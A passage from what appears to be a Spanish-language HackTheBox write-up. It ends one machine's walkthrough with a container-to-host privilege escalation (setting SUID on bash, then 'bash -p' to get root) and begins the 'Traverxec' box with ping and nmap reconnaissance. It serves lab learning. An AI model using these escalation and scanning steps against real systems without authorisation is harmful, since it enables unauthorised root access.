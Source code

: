 1. Escalar privilegios en la maquina real

    - en el contenedor

        ```bash
        cd /mnt/bin
        chmod 4755 bash
        exit
        ```
    
    - en la maquina real

        ```bash
        bash -p
        whoami

        #Output
        root
        ```




# Traverxec {-}

## Introduccion {-}

La maquina del dia 23/07/2021 se llama Traverxec.

El replay del live se puede ver en [Twitch: S4vitaar Traverxec maquina](https://www.twitch.tv/videos/1095841567)



## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.165
```
ttl: 63 -> maquina linux. 
Recuerda que en cuanto a ttl 64 = linux y 128 = windows. 
Pero como estamos en hackthebox hay un nodo intermediario que hace que el ttl disminuya una unidad

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.165
```

Va un poquito lento...

